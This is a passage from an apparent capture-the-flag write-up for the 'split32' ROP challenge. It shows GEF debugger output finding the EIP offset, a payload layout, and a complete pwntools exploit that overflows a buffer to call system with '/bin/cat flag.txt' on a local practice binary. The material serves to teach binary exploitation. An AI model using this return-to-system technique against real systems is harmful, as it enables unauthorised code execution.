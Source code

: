 ```r
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x6161616c in ?? ()
gef➤  pattern search laaa
[+] Searching 'laaa'
[+] Found at offset 41 (little-endian search) likely
[+] Found at offset 44 (big-endian search) 
gef➤  x/s $eip
0x6161616c:	<error: Cannot access memory at address 0x6161616c>
gef➤  pattern search 0x6161616c
[+] Searching '0x6161616c'
[+] Found at offset 44 (little-endian search) likely
[+] Found at offset 41 (big-endian search) 

```

### Payload

The payload, as discussed earlier would be:-

```r
--------------------------------------------------------------
| buffer to EIP | system@plt | dummy_ret  | useful_string    |
--------------------------------------------------------------
```

Then in python, it'll look like:-

Let's craft the exploit:-

```python

payload = b"A"*44
payload += p32(0x08048430) # Address of `system`
payload += p32(0xdeadbeef) # dummy `ret`
payload += p32(0x804a030) # Address of `/bin/cat flag.txt`
```

### Pwning Time

Now, our exploit looks like:-

```python
from pwn import *

p = process("./split32") # Starting process

payload = b"A"*44
payload += p32(0x08048430) # Address of `system`
payload += p32(0xdeadbeef) # dummy `ret`
payload += p32(0x804a030) # Address of `/bin/cat flag.txt`
p.sendlineafter(b"> ", payload) # Sending the payload after `> ` 
p.interactive() # Switch to interactive()
```
